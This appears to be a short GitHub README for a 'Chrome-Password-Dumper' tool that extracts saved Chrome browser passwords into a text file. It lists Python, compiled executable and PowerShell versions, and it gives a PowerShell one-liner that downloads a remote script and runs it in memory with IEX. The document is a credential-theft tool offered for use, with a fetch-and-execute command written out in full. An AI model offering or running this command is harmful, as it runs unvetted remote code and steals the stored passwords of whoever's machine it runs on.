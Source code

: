 # Chrome-Password-Dumper

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: 
> IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chromev2.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* chrome.exe - compiled with py2exe

* chrome.ps1 - powershell version

* chromev2.ps1 - powershell version with a process check for chrome.
